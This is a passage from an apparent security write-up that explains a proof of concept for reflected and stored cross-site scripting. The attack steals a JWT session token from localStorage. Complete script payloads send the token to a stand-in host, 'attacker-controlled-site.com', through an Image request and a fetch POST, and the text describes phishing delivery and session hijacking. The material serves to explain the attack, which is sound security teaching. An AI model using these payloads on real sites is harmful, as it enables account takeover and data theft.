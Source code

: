     Malicious URL:
    
    `https://vulnerable-app.com/search?query=<script>const token = localStorage.getItem('sessionAuthToken'); if(token){ new Image().src='http://attacker-controlled-site.com/steal.gif?token='+encodeURIComponent(token); } else { new Image().src='http://attacker-controlled-site.com/steal.gif?token=not_found'; }</script>SearchTerm`
    
    *Conceptual PoC based on **6***
    
3. Victim Clicks Malicious URL:
    
    The attacker tricks the victim into clicking this malicious URL. This could be through a phishing email, a message on social media, or a link on a compromised website.
    
4. Malicious Script Execution:
    
    When the victim's browser loads the malicious URL:
    
    - The `vulnerable-app.com` server reflects the content of the `query` parameter (which includes the attacker's `<script>...</script>` payload) into the HTML of the search results page.
    - The victim's browser executes the injected JavaScript because it trusts content coming from `vulnerable-app.com`.
5. JWT Retrieval and Exfiltration:
    
    The executed JavaScript performs the following actions:
    
    - `const token = localStorage.getItem('sessionAuthToken');`: It attempts to read the JWT stored under the key `sessionAuthToken` from `localStorage`.
    - `if(token){... }`: If the token is found:
        - `new Image().src='http://attacker-controlled-site.com/steal.gif?token='+encodeURIComponent(token);`: A new `Image` object is created. Its `src` attribute is set to a URL on the attacker's server. The stolen JWT (after being URL-encoded to handle special characters) is appended as a query parameter (`?token=...`).
        - The browser automatically makes a GET request to this `src` URL to load the (non-existent) image. This request, containing the JWT, is sent to the attacker's server.
    - If the token is not found, it sends a "not_found" message (useful for the attacker to know if the exploit failed to find the token).
6. Attacker Captures JWT:
    
    The attacker has a listener (e.g., a simple web server) at http://attacker-controlled-site.com. This server logs all incoming GET requests to steal.gif. The attacker can then extract the token parameter from their server logs, thereby obtaining the victim's JWT.
    
7. Attacker Impersonates Victim:
    
    The attacker can now use the stolen JWT to make authenticated requests to https://vulnerable-app.com's API, effectively hijacking the victim's session and gaining unauthorized access to their account and data.
    

Alternative PoC (Stored XSS):

If the attacker could inject a persistent script (e.g., in a user profile or a comment field that is rendered to other users), the payload might look like this:

```HTML

<script>
  // This script will run every time a user views the page with the stored XSS
  const storedToken = localStorage.getItem('sessionAuthToken');
  if (storedToken) {
    fetch('http://attacker-controlled-site.com/log_stolen_token', {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({ token: storedToken, victimUrl: window.location.href })
    }).catch(e => console.error('Exfiltration failed:', e));
  }
</script>
```
